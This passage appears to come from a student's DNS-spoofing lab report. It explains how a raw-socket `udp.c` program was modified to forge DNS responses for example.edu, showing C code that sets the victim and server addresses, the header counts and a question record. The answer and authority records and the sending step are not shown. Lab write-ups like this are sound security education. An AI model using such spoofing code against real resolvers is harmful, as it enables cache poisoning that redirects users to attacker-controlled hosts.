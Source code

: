 <figcaption>Figure 1.2.1.3 Details of the third package (DNS response)</figcaption><br>
</figure>

#### 1.2.2 Implementation based on `udp.c` file

We modified the file `udp.c` to spoof DNS response, and we only made change to the main function there. Due to a number of lines, we describe the details of the changes in different sections below. 

The first one shows below, where we defined the ip of "<ins style="color:green;font-weight:bold">VTM</ins>", "<ins style="color:blue;font-weight:bold">DNS</ins>" and the DNS server of `example.edu`(ether "199.43.133.53" or "199.43.135.53"). After that, we also added the prefix *resp_* to the name of buffer, dns payload, ip and upd header. 

```c
    /* part02.c sections01*/
    char *vtm_ip = argv[1],  *sev_ip = argv[2];
    //An alternative one is "199.43.133.53"
    char *example_dns_ip = "199.43.135.53";  

    char resp_buffer[PCKT_LEN];
    memset(resp_buffer, 0, PCKT_LEN);
    // Our own headers' structures
    struct ipheader *resp_ip = (struct ipheader *) resp_buffer;
    struct udpheader *resp_udp = (struct udpheader *)(resp_buffer + sizeof(struct ipheader));
    struct dnsheader *resp_dns = (struct dnsheader *)(resp_buffer + sizeof(struct ipheader) + sizeof(struct udpheader));
    char *resp_data = (resp_buffer + sizeof(struct ipheader) + sizeof(struct udpheader) + sizeof(struct dnsheader));
```

After that, we tried to construct the dns package with payload. There should be three fields. Specifically, we first set the flag and also specify the number of question, answer and authority records to 1. That of the additional records is set to 0. 

```c
    /* part02.c sections02*/
    /************ CONSTRUCT DNS PACKAGE ************/ 
    resp_dns -> flags = htons(FLAG_R);
    resp_dns -> QDCOUNT = htons(1);
    resp_dns -> ANCOUNT = htons(1);
    resp_dns -> NSCOUNT = htons(1);
    resp_dns -> ARCOUNT = htons(0);
```

And then, we constructed the three records based on the example before. We used the strcpy to set data like name. The data types short and int were used to set 2 bytes and 4 bytes data respectively. Besides, the functions `htons()` and `htonl()` were used to handle these digital values in a network package. 

```c
    /* part02.c sections03*/
    // 1. QUESTION RECORD
    // NAME(char*) | dataEnd(two short: 4bytes)
    char* qd_head = resp_data;
    int qd_len = 0; 
    // 1.1 NAME (char*)
    char* qd_name = qd_head;
    strcpy(qd_name, "\5aaaaa\7example\3edu");
    qd_len += (strlen(qd_name) + 1);
    // 1.2 dataEnd(two short int)
    struct dataEnd* qd_end = (struct dataEnd*) (qd_head+qd_len);
    qd_end->type = htons(1);
    qd_end->class = htons(1);
    qd_len += sizeof(struct dataEnd);
```
